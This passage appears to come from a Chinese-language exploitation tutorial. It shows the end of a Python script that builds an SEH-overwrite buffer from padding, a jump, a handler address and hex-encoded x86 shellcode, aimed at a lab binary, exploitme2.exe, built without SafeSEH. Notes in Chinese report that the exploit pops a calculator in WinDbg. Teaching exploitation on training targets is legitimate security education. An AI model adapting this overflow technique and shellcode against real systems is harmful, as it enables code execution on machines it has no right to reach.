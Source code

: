 ```
            "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
            "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
            "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
            "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
            "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
            "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
            "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
            "\x30\x03\xc6\xeb\xdd")
    data = 'a'*84 + jmp + handler + shellcode
    f.write(data + 'c' * (10000 - len(data)))

```

用WinDbg运行脚本并打开exploitme2.exe（没有启用SafeSEH保护机制的版本）。现在，不出我们所料，计算器被弹出了！成功利用，但是我们已经改写了一些代码。同时，在这里我们假设不启用ASLR保护机制（对于现在来说）

0x01 检测实验
=====

如果利用没法在你的系统上成功执行，那么可能是因为在栈上的空间有限。可以参考文章[http://drops.wooyun.org/tips/9948](http://drops.wooyun.org/tips/9948)中的More space on stack部分进行解决